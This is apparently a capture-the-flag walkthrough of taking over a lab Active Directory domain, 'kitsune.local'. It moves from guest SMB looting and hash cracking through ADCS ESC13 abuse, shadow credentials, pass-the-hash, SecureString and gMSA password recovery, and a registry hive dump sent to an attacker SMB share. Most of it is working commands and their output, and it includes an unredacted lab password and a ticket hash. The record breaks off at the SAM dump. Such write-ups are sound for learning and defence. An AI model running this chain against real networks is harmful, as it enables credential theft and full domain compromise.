[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.1.0.213:445  Name: kitsune.hsm               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Files                                                   READ ONLY       Global file share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        SYSVOL                                                  NO ACCESS       Logon server share
```

The Files Share seems interesting, I can take a closer look.

```bash
└─$ smbclient //kitsune.hsm/Files -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct 13 12:08:20 2026
  ..                                DHS        0  Thu Oct 15 18:49:47 2026
  10-11-Calendar_October.pdf          A     3190  Tue Oct 13 10:23:43 2026
  10-11-Financial_Report.pdf          A     4076  Tue Oct 13 10:23:49 2026
  10-11-Timesheet.pdf                 A     3854  Tue Oct 13 10:21:23 2026
  logins.psafe3                       A      840  Tue Oct 13 09:59:03 2026

                12974591 blocks of size 4096. 2911333 blocks available
```

There are four files, I will grab all of them.

```php
smb: \> get 10-11-Calendar_October.pdf
getting file \10-11-Calendar_October.pdf of size 3190 as 10-11-Calendar_October.pdf (3.2 KiloBytes/sec) (average 3.2 KiloBytes/sec)
smb: \> get 10-11-Financial_Report.pdf
getting file \10-11-Financial_Report.pdf of size 4076 as 10-11-Financial_Report.pdf (4.1 KiloBytes/sec) (average 3.6 KiloBytes/sec)
smb: \> get 10-11-Timesheet.pdf
getting file \10-11-Timesheet.pdf of size 3854 as 10-11-Timesheet.pdf (4.2 KiloBytes/sec) (average 3.8 KiloBytes/sec)
smb: \> get logins.psafe3
getting file \logins.psafe3 of size 840 as logins.psafe3 (0.8 KiloBytes/sec) (average 3.0 KiloBytes/sec)
```

## Digging Harvested Files

I will break down the findings within the SMB files.

### 10-11-Calendar_October.pdf

The only useful info I believe is the new staff `S. Reyes`. As a small detail, the date in the scenario should be on or after 23/10.



### 10-11-Financial_Report.pdf

Similar to the previous file, I found another employee `E. Volkova`.


### 10-11-Timesheet.pdf

This is the most important PDF so far. It reveals the full names of many employees. 


With the above files, I created a name list to prepare for username enumeration.

```
Amara Okafor
Diego Matchetti
Priya Nair
Lukas Brandt
Sofia Reyes
Tomoko Ishikawa
Marcus Bellany
Elena Volkova
Kwame Asante
Hana Suzuki
J. Tanaka
```

### logins.psafe3

The last file is very special, it is a password database.

```bash
└─$ file logins.psafe3
logins.psafe3: Password Safe V3 database
```

The database can be inspected using a utility called `pwsafe`, but a password is required.

HashCat has mode [5200](https://hashcat.net/forum/thread-3883.html) to brute force the password. 

```bash
└─$ hashcat logins.psafe3 /usr/share/wordlists/rockyou.txt -m 5200 -o pass.txt                                                                                

...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: logins.psafe3
Time.Started.....: Tue Nov  3 14:41:27 2026 (6 secs)
Time.Estimated...: Tue Nov  3 14:41:33 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:      560 H/s (16.22ms) @ Accel:383 Loops:1024 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3064/14344385 (0.02%)
Rejected.........: 0/3064 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:327680-327681
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> guerrero
Hardware.Mon.#01.: Util: 87%

Started: Tue Nov  3 14:41:26 2026
Stopped: Tue Nov  3 14:41:34 2026
```

It seems HashCat is able to retrieve a valid credential.

```bash
└─$ wc -l pass.txt
1 pass.txt
```

And the database stores a total of three credentials.


I believe there will be password reuse, so I will plug in to the previous user list in the following section.

## Finding A Valid User

Combined with the new usernames, I created this user list.

```
Amara Okafor
Diego Matchetti
Priya Nair
Lukas Brandt
Sofia Reyes
Tomoko Ishikawa
Marcus Bellany
Elena Volkova
Kwame Asante
Hana Suzuki
J. Tanaka
admin
ranch
root
```

I use a [script]([https://github.com/0xKirito/ADUserGen/tree/main](https://github.com/0xKirito/ADUserGen/tree/main)) to create some potential Windows AD Username combinations .

I then place the generated list in Kerbrute to do a user enumeration.

```bash
└─$ kerbrute userenum -d kitsune.local --dc DC01.kitsune.local potential_usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 11/03/26 - Ronnie Flathers @ropnop

2026/11/03 15:13:03 >  Using KDC(s):
2026/11/03 15:13:03 >   DC01.kitsune.local:88

2026/11/03 15:13:14 >  [+] VALID USERNAME:       ranch@kitsune.local
2026/11/03 15:13:14 >  Done! Tested 379 usernames (1 valid) in 10.648 seconds
```

only `ranch` is a valid user.

At that moment, I firmly believe it has something to do with AS-REP roasting, so I use the `GetNPUsers` to do a quick check.

```bash
└─$ impacket-GetNPUsers kitsune.local/ -dc-ip 10.1.0.213 -usersfile valid_user.txt -request
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] User ranch@kitsune.local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

It returns a negative result, all it is left is probably password reuse.

```bash
└─$ nxc smb kitsune.local -u ranch -p 'xxxxxxxxxx'
SMB         10.1.0.213      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.0.213      445    DC01             [+] kitsune.local\ranch:xxxxxxxxxx
```

So now, the `ranch` account is compromised, and I can move on to BloodHound to gather some loots.

## Bloodhound

Pass the obtained credentials to `nxc` to collect loots.

```bash
└─$ nxc ldap DC01.kitsune.local -u ranch -p 'xxxxxxxx' --dns-server 10.1.0.213 --bloodhound -c All
LDAP        10.1.0.213      389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local) (signing:Enforced) (channel binding:Never) 
LDAP        10.1.0.213      389    DC01             [+] kitsune.local\ranch:xxxxxxx
LDAP        10.1.0.213      389    DC01             Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.1.0.213      389    DC01             Excluded collection methods: 
LDAP        10.1.0.213      389    DC01             Bloodhound data collection completed in 1M 4S
LDAP        10.1.0.213      389    DC01             Collecting ADCS data (CertiHound)...
LDAP        10.1.0.213      389    DC01             Found 34 certificate templates
LDAP        10.1.0.213      389    DC01             Found 1 Enterprise CAs
LDAP        10.1.0.213      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.0.213_2026-11-03_152649_bloodhound.zip
```

The `ranch` user is a low-privileged account, with only some enrollment rights to certificate templates.


This hinted that ADCS might be the way out.

Before I start enumerating, I also take a look at all the accounts.


Do some quick queries, including Kerberoasting, and found nothing. So I move on.

## ADCS Scanning

I always forget the syntax of `certipy-ad`, but essentially, I just want the output to include enabled and vulnerable templates.

```bash
└─$ certipy-ad find -enabled -vulnerable -dc-ip 10.1.0.213 -u 'ranch' -p 'xxxxxxxxxx' -text
```

Here is the result.

```bash
Certificate Authorities
  0
    CA Name                             : kitsune-DC01-CA
    DNS Name                            : DC01.kitsune.local
    Certificate Subject                 : CN=kitsune-DC01-CA, DC=kitsune, DC=local
    Certificate Serial Number           : 23E87814E94E648848405CFD9514BD14
    Certificate Validity Start          : 2026-10-12 21:14:31+00:00
    Certificate Validity End            : 2125-10-12 21:24:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : KITSUNE.LOCAL\Administrators
      Access Rights
        ManageCa                        : KITSUNE.LOCAL\Administrators
                                          KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        ManageCertificates              : KITSUNE.LOCAL\Administrators
                                          KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Enroll                          : KITSUNE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : Kitsune-User
    Display Name                        : Kitsune-User
    Certificate Authorities             : kitsune-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2026-10-12T22:12:00+00:00
    Template Last Modified              : 2026-10-13T00:52:56+00:00
    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.10863307.14988779.16010669.3757508.10421200.134.6077557.15214621
    Linked Groups                       : CN=HelpDesk,CN=Users,DC=kitsune,DC=local
    Permissions
      Enrollment Permissions
        Enrollment Rights               : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Domain Users
                                          KITSUNE.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : KITSUNE.LOCAL\Administrator
        Full Control Principals         : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Owner Principals          : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Dacl Principals           : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Property Enroll           : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Domain Users
                                          KITSUNE.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : KITSUNE.LOCAL\Domain Users
    [!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=HelpDesk,CN=Users,DC=kitsune,DC=local'.
```

The very last line tells me what I need to do:

```bash
ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=HelpDesk,CN=Users,DC=kitsune,DC=local'.
```

Checking the HelpDesk group, I found that I can use ESC13 to gain control of the `schlop` account.


So the next task should be learning ESC13 and exploit it.

## ESC13

 this [blog]([https://specterops.io/blog/2024/02/14/adcs-esc13-abuse-technique/](https://specterops.io/blog/2024/02/14/adcs-esc13-abuse-technique/)) help me understand what ESC13 is about.

> Organizations can use issuance policies to apply policies where they use certificates, given that the system supports it. A system may require a user to present a certificate with a given issuance policy to ensure that the system only grants access to the right authorized users.
> 

In one sentence, ESC13 allows the attacker to have the privileges of a group associated by the Issurance Policy of the Certificate Template.

> What Microsoft is trying the explain here is that you can use the attribute to link an issuance policy to **an AD group**, such that systems will authorize users as members of the given group, if they present a certificate with the given issuance policy. If you perform client authentication with the certificate, then you will receive an access token specifying the membership of this group.
> 

The graph explains better than I do.


To start the attack, I first request for a certificate of the `Kitsune-User` template. 

```bash
─$ certipy-ad req -u ranch -p 'xxxxxxx' -dc-ip 10.1.0.213 -ca Kitsune-DC01-CA -template Kitsune-User -key-size 4096 -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Nameserver: '10.1.0.213'
[+] DC IP: '10.1.0.213'
[+] DC Host: None
[+] Target IP: '10.1.0.213'
[+] Remote Name: '10.1.0.213'
[+] Domain: ''
[+] Username: 'RANCH'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.1.0.213[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.1.0.213[\pipe\cert]
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'ranch@kitsune.local'
[+] Found SID in security extension: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Certificate object SID is 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Saving certificate and private key to 'ranch.pfx'
[+] Attempting to write data to 'ranch.pfx'
[+] Data written to 'ranch.pfx'
[*] Wrote certificate and private key to 'ranch.pfx'
```

> The `-key-size 4096`  flag is added to ensure the length of the public key meets the length requirements.
> 

The certificate is issued and saved as `ranch.pfx`.

Next, I can authenticate myself using the certificate and get the TGT.

```bash
└─$ certipy-ad auth -pfx ranch.pfx -dc-ip 10.1.0.213
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ranch@kitsune.local'
[*]     Security Extension SID: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Using principal: 'ranch@kitsune.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ranch.ccache'
[*] Wrote credential cache to 'ranch.ccache'
...
```

With the TGT, I can have generic all privilege on the `schlop` user, but before that, first create an entry in `/etc/krb5.conf`.

```bash
KITSUNE.LOCAL = {
	kdc = DC01.kitsune.local
}
```

Then export the `KRBCCNAME` environment variable.

```bash
└─$ export KRB5CCNAME=./ranch.ccache
```

`klist` tells us that the TGT is loaded.

```bash
└─$ klist
Ticket cache: FILE:./ranch.ccache
Default principal: ranch@KITSUNE.LOCAL

Valid starting       Expires              Service principal
2026-11-03T17:53:13  2026-11-04T03:53:13  krbtgt/KITSUNE.LOCAL@KITSUNE.LOCAL
        renew until 2026-11-04T17:52:58
```

I first tried to do a Target Kerboasting. The attack works and I get the TGS.

```bash
└─$ python3 targetedKerberoast/targetedKerberoast.py -v -d kitsune.local  -k --no-pass --dc-ip 10.1.0.213 --use-ldaps -f hashcat -o schlop.hash
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (schlop)
[+] Writing hash to file for (schlop)
[VERBOSE] SPN removed successfully for (schlop)
```

> Remember to add the `--ldaps` flag as to meet the security standards.
> 

I thought after I obtain TGS, things will be easier.

```bash
$krb5tgs$18$schlop$KITSUNE.LOCAL$*kitsune.local/schlop*$e680877a47db0361dc50f56c$d295411b1b57b1fc2173901649a5f6ad70ebd9615a308bcb6863a4ee893aecfafa77f0a7098113b2cdfc813bcbf916f9d238b4642b22f73e3e5ad07b7e56bf485701551b5873f3db8627436a4e4841026ffa42be8a5955f6cf79cbef29e9d499b732b20ab2d85779f4972f85352abe73b29e0f55d255df8cb6964350d3f4745393c267ad57dc9c1129ed37b392c6bd3585e9acc961afd3e2543ae65a75a3ab525e94f03e4a2970d9f9330b4dba5295d0dd0cd5bc31e7ef1858697ba8d70a3895df46d73e864404dd03a9f2c2e5e8f99d745fcbc76576fa4176c3b4a1798d1d6ee01abc50a09199762389acd81ef0f21dbdf0eaa81666553577cff09580b47a0a65a4dd3dbc0c4f85bc23a4e6ba778f04dba066b4072a7d3307b7740042fa813079d5eadd64bfc997d761d75d4f49ef7d6152dfb5bea133947b67ae14224b807efd81496491cd38504dcdf78c33732f3253239cd2b87d2dbc647426305e10801b7c34d4c4bcca8de85ef637f760a297684e1b249fa392a3bd03037fef8657625e6b7db73eb3ce896b8759ee5320bb3f1248d605fcef1b839f14825492ff614e8c3baf0385715694175f8b37613f733180e829beef5b8b4afe9389bec39935ce7a668f38d0518558b3825d11afc2d1b050a6fdbe607b686963dd83c3f8a5e3fbd91e66f2568ff3d6486af5ed419ae2d165841020db67d40e75bac5a50d2d89fe4c31a440ca15686d7df82670f34c45a0ce3cf4df19304843cd77a96315e8cd522083c4de7d64418b765066cca93829727af177e8b53ac7c1d49ea85954bac9af7c749dcce8568d2b7b546a367b7e06839df085b281f942948dfc03d6a67756898db0a1e41499e2f9e02a4144d20bf85e50267eb269c2ed509813418f1ab0f51a88d776cb6aa32011f381334e774451dfdbb0bf7b0a025757c14abc6d0379b7da2798f47f69b13e4cee1cde604a7b913b3f4217a9f5cd550c1eac4d555286af773ac1e88a81880b4adac9722e9259a07fc0153ac01b5d4e067decf10d11d88ce1a65cf85624679a1df4a151b50a7a0437a0db4520cb105f3958d46ab12bfe86a9df7361ef4ebb0f9d6d59884b7921534b9360a986eb59ad8d070d8e57e4cf93281593a4ffde9c68c29f87f68d63d6da758e94b068db73f1a755f573a07eb6d64af0bdb36787eb4f19a5bad3e13d966b401528d00a9c41323339b27784e16581c79b3bd35f4fe8939ef28980b9daa6c212193a4b3cb314cac19585ea4b7a74656ec9678611812f23a8e2c3029768bc973c48034a999ca887c6a6ee29c772d03b5e8b689a8064825bf9946f711b8aff44287717afce70d59cbf96d64ddaaba455a405575a77dda664697f39ad7bbd4845ee6d34025f833d3612b35023104c3f31b9b725e4fa8077785e022d2b16146ea6d3e4f4506ebb1504d360dc4a1ba28f09648dcac84a50ce88a2ddd04f252debaa288e11b938deeb1494c9fef4793ca3c16b8df893ee97a209cd69bf06045988aa293fa3944e4b38873ebb186964da19918fb8654e829076f73a6ce23b8be763002045eb4532cefd77ffc0db909bd21084c3393cb91b1391ff97f0f285afa7840904a863cf41c6bec87ac604031fef5a7c32f479a87555e963d2b9bee8890fdc6481f407870284a98803ff2a9c69014d248c0d10352035cfe0e4b63a22c04e6b034a6a8d7eeab22e6ac05cfa63ea9a74cb892776c9a0170ec8f5d6da6398
```

But after I went through the whole `rockyou.txt`, I cannot obtain his password.

Eventually, I used shadow credential to obtain the NT hash of the user.

```bash
└─$ certipy-ad shadow auto -account schlop -dc-ip 10.1.0.213 -dc-host DC01.kitsune.local -k
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'schlop'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8f0c6ce8ae0f4b29b0c7d0afc9cb07b8'
[*] Adding Key Credential with device ID '8f0c6ce8ae0f4b29b0c7d0afc9cb07b8' to the Key Credentials for 'schlop'
[*] Successfully added Key Credential with device ID '8f0c6ce8ae0f4b29b0c7d0afc9cb07b8' to the Key Credentials for 'schlop'
[*] Authenticating as 'schlop' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'schlop@kitsune.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'schlop.ccache'
[*] Wrote credential cache to 'schlop.ccache'
[*] Trying to retrieve NT hash for 'schlop'
[*] Restoring the old Key Credentials for 'schlop'
[*] Successfully restored the old Key Credentials for 'schlop'
[*] NT hash for 'schlop': xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## Compromising Schlop (Pass The Hash)

Notice that the Schlop user is inside the REMOTE MANAGEMENT group.


`evil-winrm` allows pass the hash, so with the NT hash, I am finally in. The Cat image is very cool btw.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> whoami
kitsune\schlop
*Evil-WinRM* PS C:\Users\schlop\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\schlop\Desktop> dir

    Directory: C:\Users\schlop\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/13/2026   2:33 AM            344 user.txt

*Evil-WinRM* PS C:\Users\schlop\Desktop> type user.txt
  ,-.       _,---._ __  / \
 /  )    .-'       `./ /   \
(  (   ,'            `/    /|
 \  `-"             \'\   / |
  `.              ,  \ \ /  |
   /`.          ,'-`----Y   |
  (            ;        |   '
  |  ,-.    ,-'         |  /
  |  | (   |       yay! | /
  )  |  \  `.___________|/
  `--'   `--'
```

## Enumeration in Schlop

Sadly, Schlop do not have some weird privileges that makes privilege escalation easy.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

There is also no interesting outbound control.


However, there is a file inside the Documents directory.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> dir

    Directory: C:\Users\schlop\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/13/2026   2:37 AM           1770 networkAuth.cred
```

The file includes a Secure String of the account Pebble.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> type networkAuth.cred
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">pebble</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000015eb4da53276741952d904a69c440310000000002000000000010660000000100002000000041903d6d7ae4fa86dd56bfe8741f4a15c9e2226d386f88f6aec7f15a5779f3e6000000000e8000000002000020000000b3604d46abd67313eb9a551d3b289c48c922bada4680807c9b7556e0633f19b920000000ae67f87d8559a61c20268cde4649e3538e0c15a7e7153c33e2fc6f7b13c713a44000000064462a2ea8ee6b2bccf09125fa86779431d4ccea0c9a30f2a325239c4199e26982ae745497a01016f90238173a2eb540b47410a39f97e8cb89c8d3ca14bcc8d7</SS>
    </Props>
  </Obj>
</Objs>
```

## Compromising Pebble (Recovering SecureString)

I have zero clue on SS, so I did some research and found this [blog]([https://www.pdq.com/blog/secure-password-with-powershell-encrypting-credentials/](https://www.pdq.com/blog/secure-password-with-powershell-encrypting-credentials/)).

The TL;DR section list the requirement for decrypting the SS

> **TL;DR:** You can encrypt credentials in PowerShell using SecureString and PSCredential objects instead of storing passwords in plain text. These objects allow scripts to securely store, retrieve, and reuse credentials for automation tasks. By default, it only works for the **same user on the same computer**, so cross-machine use requires an AES key, which must be protected like the password itself.
> 

Using `Get-Acl`, we confirm that the file belongs to us, therefore we can recover the credentials.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> Get-Acl networkAuth.cred

    Directory: C:\Users\schlop\Documents

Path             Owner          Access
----             -----          ------
networkAuth.cred KITSUNE\schlop NT AUTHORITY\SYSTEM Allow  FullControl...
```

Because it is an XML object, it is very easy to recover.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> $Credential = Import-Clixml -Path .\networkAuth.cred
*Evil-WinRM* PS C:\Users\schlop\Documents> $Credential.GetNetworkCredential().Password
xxxxxxxxx

```

The `Import-Clixml` cmdlet import the XML file, and then the `GetNetworkCredential()` method extract the [password]([https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential.getnetworkcredential?view=powershellsdk-7.6.0](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential.getnetworkcredential?view=powershellsdk-7.6.0)).

I can then authenticate myself as `pebble`.

```bash
└─$ kerbrute passwordspray --dc DC01.kitsune.local -d kitsune.local ../PrivEsc/valid_users.txt 'xxxxxxxxx'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 11/03/26 - Ronnie Flathers @ropnop

2026/11/03 20:10:24 >  Using KDC(s):
2026/11/03 20:10:24 >   DC01.kitsune.local:88

2026/11/03 20:10:25 >  [+] VALID LOGIN:  pebble@kitsune.local:xxxxxxxxxx
2026/11/03 20:10:25 >  Done! Tested 7 logins (1 successes) in 0.629 seconds
```

## Compromising `svc_gmsa$` (ReadGMSAPassword Privilege)

The Pebble account is in the IT group, which has ReadGMSAPassword privilege against the tier 0 `svc_gmsa$`


I first tried the method suggested by BloodHound, but I got LDAPBindError instead.

```bash
└─$ python gMSADumper.py -u 'pebble' -p 'xxxx' -d 'DC01.kitsune.local'
Traceback (most recent call last):

....

  File "/home/kali/.env/lib/python3.13/site-packages/ldap3/core/connection.py", line 363, in __init__
    self._do_auto_bind()
    ~~~~~~~~~~~~~~~~~~^^
  File "/home/kali/.env/lib/python3.13/site-packages/ldap3/core/connection.py", line 412, in _do_auto_bind
    raise LDAPBindError(error)
```

So I switched to another tool, bloodyAD, and I get the `msDS-ManagedPassword`.

```bash
└─$ bloodyAD --host "10.1.0.213" -d "kisune.local" -u "pebble" -p "xxxxxxxx" get object 'svc_gmsa$' --attr msDS-ManagedPassword                                                                                                          

distinguishedName: CN=svc_gmsa,CN=Managed Service Accounts,DC=kitsune,DC=local
msDS-ManagedPassword: AQAAACIBAAAQAAAAEgEaAcKqHUyfzIpnvKcVP/6PYPmu1QdUP6uh9RZz52Gw3/aGEv8YoFmnSedvJMiEziR5e0PcC9f1rFGyLHQuQjSD0hbwX48nHHj/GioQd2oYCfNO9E7SDGS8mbLUUwCwA2tIHxP0v8a4IGJE6W7c9YZZ1XO8mOuAIihE5hJknFhSUso8gxoaM229wxovCps2uAMuGZFZrGygqNzONkMxhSMHh+vAf7Rphz9PR8Tl6zK73oTBcN7MEjsPzP9XKmiUs+0JKIPDl5L2HAAiYiknyS4cl4kKInBVW68ZTn21mcPZ3ZnVDJxhFtt9SyCn84Ipvr68OYlokOIKIw7Gdfiig0Mq2t8AAK8Tny6ZBgAAr7XOe5gGAAA=
```

`msDS-ManagedPassword` is a blob. A better option is to use `ldeep` to obtain the NT hash.

```bash
─$ ldeep ldap -d DC01.kitsune.local -s 10.1.0.213 -u pebble -p 'PebbleIs47!' gmsa -t 'svc_gmsa$' -v
[
...
  "msDS-GroupMSAMembership": "AQAEgBQAAAAAAAAAAAAAACQAAAABAgAAAAAABSAAAAAgAgAABAAsAAEAAAAAACQA/wEPAAEFAAAAAAAFFQAAAGxq7OBfII381hG5jEEGAAA=",
  "msDS-ManagedPassword": "AQAAACIBAAAQAAAAEgEaAcKqHUyfzIpnvKcVP/6PYPmu1QdUP6uh9RZz52Gw3/aGEv8YoFmnSedvJMiEziR5e0PcC9f1rFGyLHQuQjSD0hbwX48nHHj/GioQd2oYCfNO9E7SDGS8mbLUUwCwA2tIHxP0v8a4IGJE6W7c9YZZ1XO8mOuAIihE5hJknFhSUso8gxoaM229wxovCps2uAMuGZFZrGygqNzONkMxhSMHh+vAf7Rphz9PR8Tl6zK73oTBcN7MEjsPzP9XKmiUs+0JKIPDl5L2HAAiYiknyS4cl4kKInBVW68ZTn21mcPZ3ZnVDJxhFtt9SyCn84Ipvr68OYlokOIKIw7Gdfiig0Mq2t8AACNTGtGVBgAAI/VJHpUGAAA=",
  "msDS-ManagedPasswordId": "AQAAAEtEU0sCAAAAbAEAAA8AAAAPAAAAWC6RwLhh0W5NSuqv1rQVIwAAAAAcAAAAHAAAAGsAaQB0AHMAdQBuAGUALgBsAG8AYwBhAGwAAABrAGkAdABzAHUAbgBlAC4AbABvAGMAYQBsAAAA",
  "msDS-ManagedPasswordInterval": 30,
  "msDS-SupportedEncryptionTypes": "RC4-HMAC | AES128-CTS-HMAC-SHA1-96 | AES256-CTS-HMAC-SHA1-96",
  "name": "svc_gmsa",
  "nthash": "xxxxxxxxxxxxxxx",
  "objectCategory": "CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=kitsune,DC=local",
  "objectClass": [
    "top",
    "person",
    "organizationalPerson",
    "user",
    "computer",
    "msDS-GroupManagedServiceAccount"
  ],
  "objectGUID": "{2bc1535c-dc75-4f87-b2b2-1e498a56c756}",
  "objectSid": "S-1-5-21-3773590124-4237107295-2360938966-1602",
  "primaryGroupID": 515,
  "pwdLastSet": "2026-10-13T02:47:26.174677+00:00",
  "readers": [
    "IT (group)"
  ],
  "sAMAccountName": "svc_gmsa$",
  "sAMAccountType": "SAM_MACHINE_ACCOUNT",
  "uSNChanged": 41014,
  "uSNCreated": 28770,
  "userAccountControl": "WORKSTATION_TRUST_ACCOUNT",
  "whenChanged": "2026-10-13T04:03:26+00:00",
  "whenCreated": "2026-10-13T02:47:26+00:00"
}]
```

This conclude the `svc_gmsa$`.

```bash
└─$ nxc smb kitsune.hsm -u 'svc_gmsa$' -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'                                                                                                    
SMB         10.1.0.213      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.0.213      445    DC01             [+] kitsune.local\svc_gmsa$:xxxxxxxxxxxxxxxxxxxxxxxx
```

## Compromising Administrator (SAM Dump)

Looking back in BloodHound, the `svc_gmsa$` service account is a member of the backup operators group.


So I can dump the entire registry hives.

To start, I first create a SMB server, and store the received file in the current directory.

```bash
└─$ smbserver.py -smb2support 'someshare' './'
```

Then, I can perform the backup operation with pass the hash.

```bash
└─$ reg.py 'kitsune.hsm'/'svc_gmsa$'@10.1.0.213 -hashes :xxxxxxxxxxxxxxx backup -o '\\10.200.114.157\someshare' 
```

Finally, I can pass the hives to secretsdump.

```bash
─$ secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3b61a7e10112dd9303cba2228589d145
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
